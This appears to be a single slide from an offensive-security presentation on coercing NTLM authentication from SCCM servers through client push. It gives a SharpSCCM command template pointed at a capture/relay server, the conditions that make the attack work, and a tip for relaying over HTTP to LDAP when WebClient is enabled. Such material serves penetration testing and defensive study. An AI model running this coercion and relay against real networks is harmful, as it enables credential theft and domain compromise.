

# Coercing NTLM from SCCM Servers
SharpSCCM.exe <server> <sitecode> invoke client-push -t <capture/relay server>
Description
Coerce NTLM authentication from SCCM site client push installation account(s) and machine account
Requirements
Automatic site assignment and client push enabled
Allow NTLM fallback enabled
Under the hood
If WebClient is enabled, we can request auth via HTTP  instead of SMB and relay to LDAP by specifying <netbiosname>@<port> for <capture/relay server>
23